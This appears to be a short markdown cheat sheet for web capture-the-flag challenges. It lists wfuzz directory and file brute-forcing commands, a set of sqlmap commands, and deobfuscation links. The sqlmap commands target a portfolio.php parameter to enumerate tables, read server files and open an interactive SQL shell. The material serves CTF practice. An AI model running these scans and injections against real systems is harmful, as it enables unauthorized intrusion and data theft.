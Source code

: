 # Web Challanges

## Information Gathering

### scan for dirs

#### wfuzz
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/FUZZ

#### dirsearch
    https://github.com/maurosoria/dirsearch
    

### scan for files
    wfuzz -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 404 -R2 http://138.68.182.108:32660/administrat/include/FUZZ.php

## SQL Exploits

### sqlmap

#### scan for SQL vulnerabilities
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1

#### list tables
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --tables

#### file structure, e.g. apache
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --common-files

#### read file
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 --read-files=/var/www/html/mail/contact_me.php

#### interactive SQL shell
    # DB freelance
    sqlmap -u http://138.68.182.108:31930/portfolio.php?id=1 -D freelancer --sql-shell

## Deobfuscation

### js

[ JStillery ]( https://en.kali.tools/?p=1354 )

### php

https://www.unphp.net/
